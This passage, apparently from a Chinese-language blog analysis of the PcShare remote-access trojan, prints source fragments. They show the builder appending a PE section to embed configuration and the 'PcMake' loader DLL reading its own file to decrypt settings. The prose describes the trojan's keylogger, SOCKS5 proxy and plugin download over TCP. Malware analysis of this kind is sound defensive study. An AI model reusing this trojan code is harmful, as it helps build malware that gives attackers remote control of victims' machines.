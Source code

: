 ```
    // 新节的RVA
    pNewSec->VirtualAddress = pPE_Header->OptionalHeader.SizeOfImage;

    //SizeOfRawData在EXE文件中是对齐到FileAlignMent的整数倍的值
    pNewSec->SizeOfRawData = DataLen;
    pNewSec->SizeOfRawData /= pPE_Header->OptionalHeader.FileAlignment;
    pNewSec->SizeOfRawData++;
    pNewSec->SizeOfRawData *= pPE_Header->OptionalHeader.FileAlignment;

    // 设置新节的 PointerToRawData
    pNewSec->PointerToRawData = nPeLen;

    // 设置新节的属性
    pNewSec->Characteristics = 0x40000040;      //可读,，已初始化

    // 增加NumberOfSections
    pPE_Header->FileHeader.NumberOfSections++;

    // 增加SizeOfImage
    pPE_Header->OptionalHeader.SizeOfImage += 
        (pNewSec->Misc.VirtualSize/pPE_Header->OptionalHeader.SectionAlignment + 1) * 
        pPE_Header->OptionalHeader.SectionAlignment;

    // 保存到文件
    HANDLE hFile = CreateFile(
        pPeFile,
        GENERIC_WRITE,
        FILE_SHARE_READ,
        NULL,
        CREATE_ALWAYS,
        FILE_ATTRIBUTE_NORMAL,
        NULL );

```

PcMake 连接型DLL小马 编译文件名：PcMake.dll

通过源码分析Pcshare共有3个插件1、控制插件（即：PcMain.dll） 2、键盘记录插件（PcLkey.dll） 3、Sock5代理插件 后两个插件是会员版本专享。

PcMake这个插件初始化连接是使用TCP连接到控制端，然后下载控制插件。会员版本采用直接捆绑打包PcMain.dll控制插件方式，所以体积上会大一些。

这个小马插件特色不多，下面我主要分析的解密配置信息部分代码和上线代码。

定义：

```
#define PS_VER_ULONGLONG        0x1234567812345678

BOOL MyMainFunc::GetFileSaveInfo(LPVOID pInfoData, DWORD nInfoLen, HINSTANCE hInst)
{
    //文件数据
    DWORD nReadLen = 0;
    char m_DllName[MAX_PATH] = {0};
    GetModuleFileName(hInst, m_DllName, 200);
    HANDLE hFile = CreateFile(m_DllName, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if(hFile == INVALID_HANDLE_VALUE)
    {
        return FALSE;
    }
    DWORD nFileLen = GetFileSize(hFile, NULL);
    BYTE* pFileData = new BYTE[nFileLen];
    ReadFile(hFile, pFileData, nFileLen, &nReadLen, NULL);
    CloseHandle(hFile);

    //查找存储文件标志
```